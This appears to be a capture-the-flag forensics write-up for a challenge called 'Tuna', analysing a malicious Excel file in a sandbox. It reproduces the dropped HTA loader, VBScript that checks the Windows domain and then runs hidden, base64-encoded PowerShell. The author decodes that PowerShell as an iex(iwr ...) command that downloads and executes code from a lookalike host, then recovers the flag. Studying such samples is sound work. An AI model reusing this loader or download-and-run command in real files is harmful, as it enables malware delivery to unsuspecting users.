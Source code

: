 #Title: Tuna
#Difficulty: Easy
#Type: Forensics

```bash
$ file Sales.xls 
Sales.xls: Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, Code page: 1252, Name of Creating Application: Microsoft Excel, Create Time/Date: Wed Jan 27 05:24:10 2021, Last Saved Time/Date: Wed Jan 27 09:36:27 2021, Security: 0
```

When we open the file it gives error that it runs a macro. When I check from excel there is not a saved macro meaning meaning we need to analyze file with other ways. I used `any.run` for sandbox. `https://app.any.run/tasks/8b147632-158b-4b1b-a7aa-09e21d393f23/`. When I analyze the process I see some files being created such as `C:\Users\admin\AppData\Roaming\eR3TyhAs.hta` and `C:\Users\admin\AppData\Local\Temp\CVR7004.tmp.cvr`. When I chech the eR3TyhAs.hta file I see:

```bash
<script language="VBScript">
Sub Window_OnLoad()
    window.moveTo -4000, -4000
    Set oShell = CreateObject("WScript.Shell")
    Set wteork = CreateObject("WScript.Network")
       yte4as = wteork.UserDomain
    If StrComp(yte4as, "MEGACORP") = 0 Then
        oShell.run("wmic process call create ""powershell -window hidden -enc aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AbQBhAGMAcgBvAHMAMABmAHQALgBjAG8AbQAvAGMAbwBuAG4AZQBjAHQAPwBrAGUAeQA9AFMARgBSAEMAZQAyAGwAMABVADEAOQBoAFgAMgBjAHcATQBHAFIAZgBaAEcARgA1AFgAegBSAGYAWgBqAEYAegBhAEcAbAB1AFoAMQA5AHAAYgBtADUAcABkAEQAOQA5AEMAZwAgAC0AdQBzAGUAYgApAAoA""")
        window.close()
    Else
        window.close()
    End If
End Sub
</script>
```

There is a base64 lets decode it. `iex(iwr http://macros0ft.com/connect?key=SFRCe2l0U19hX2cwMGRfZGF5XzRfZjFzaGluZ19pbm5pdD99Cg -useb)`. There is one more 
`HTB{itS_a_g00d_day_4_f1shing_innit?}`

That is this easy!!!
